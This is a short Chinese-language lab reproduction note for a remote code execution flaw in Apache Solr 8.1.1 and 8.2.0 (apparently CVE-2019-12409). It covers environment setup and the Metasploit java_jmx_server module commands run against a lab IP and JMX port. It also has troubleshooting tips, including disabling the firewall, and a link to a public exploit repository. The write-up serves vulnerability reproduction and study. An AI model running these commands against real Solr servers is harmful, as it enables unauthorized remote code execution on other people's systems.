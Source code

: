 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Solr 8.2.0

# 0x01 环境搭建
目标环境：centos7_x64_en-us + solr-8.2.0.tgz + openjdk version "1.8.0_181"  
攻击环境：kali2020 + msf5  
wget https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz  
tar -xvf ./solr-8.2.0.tgz  
cd ./solr-8.2.0.tgz/bin/  
./solr start -force#默认启动端口8983  
启动后浏览器访问http://127.0.0.1:8983/，如下图所示环境配置完成：  
![image](./1.png)  

# 0x02 利用条件
无

# 0x03 影响版本
Solr 8.1.1
Solr 8.2.0

# 0x04 漏洞复现
msfconsole  
use exploit/multi/misc/java_jmx_server  
set rhosts 172.16.35.138  
set rport 18983  
run
![image](./2.png)


# 0x05 踩坑记录
坑1：  
在kali下搭建的漏洞环境run多次后一直失败，经查看发现kali下的java版本是openjdk version "11.0.6" 2020-01-14，怀疑可能是java版本过高导致的利用失败，故在ubuntu16.04_x64_en-us下使用java8重新搭建solr-8.2.0.zip，漏洞利用成功。
看过别人在java10下也有利用成功的文章，怀疑可能exp针对java10及以下的版本才有效。  
坑2：  
centos7下默认开启防火墙，需要临时关闭防火墙：“systemctl stop firewalld”

# 参考链接
https://github.com/jas502n/CVE-2019-12409
